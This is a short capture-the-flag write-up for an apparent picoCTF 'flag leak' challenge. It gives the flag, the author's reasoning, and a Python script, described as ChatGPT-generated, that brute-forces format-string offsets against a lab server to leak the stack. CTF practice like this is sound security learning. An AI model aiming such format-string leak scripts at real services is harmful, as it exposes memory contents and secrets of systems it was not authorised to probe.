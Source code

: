 # Binary Exploitation

## flag leak
### Flag
* flag: CTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
### Thought process
* using a technique i found in google using format strings for accessing sections of stack with "%1$s" is the closest i came to finding the flag
* i didnt have time cause its already 11 and i only have 1 hr to finish the entire web exploitaton section
* so i thought why not write a python script and brute force through all section of the stack 1 to a 100
* doing so let me find the flag at the 24th position
### Code Used
```py
# this is chatgpt'd
#Prompt : c saturn.picoctf.net 59949 this is the connection to run the file, what if i run a forloop in python that iterates through %i$s
import socket

# Server details
host = 'saturn.picoctf.net'
port = 59949

def send_payload(offset):
    # Construct the format string payload to send
    payload = f"%{offset}$s\n"
    
    # Set up the socket connection
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((host, port))  # Connect to the server
        s.recv(1024)  # Receive the initial welcome message
        s.sendall(payload.encode())  # Send the crafted payload
        try:
            response = s.recv(1024).decode()
        except: 
            response = '' 
        return response

def main():
    # Try different offsets to see if we can find the flag
    for i in range(1, 100):
        print(f"Sending payload with offset %{i}$s")
        response = send_payload(i)
        print("Response:", response)
        if "picoCTF" in response:  # Look for the flag format (usually starts with picoCTF)
            print(f"Flag found: {response}")
            break

if __name__ == "__main__":
    main()
```